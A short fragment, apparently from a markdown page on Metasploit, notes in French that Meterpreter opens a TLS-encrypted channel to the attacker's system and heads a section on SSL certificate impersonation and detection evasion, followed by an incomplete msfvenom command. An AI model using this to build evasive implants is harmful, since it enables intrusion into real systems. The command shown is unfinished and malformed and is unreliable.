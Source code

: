 > Meterpreter etabli un canal de communication crypté (TLS) avec le système de l'attaquant.

SSL Certificate Impersonation and Detection Evasion

```sh
msfvenom --platform {windows, }
```


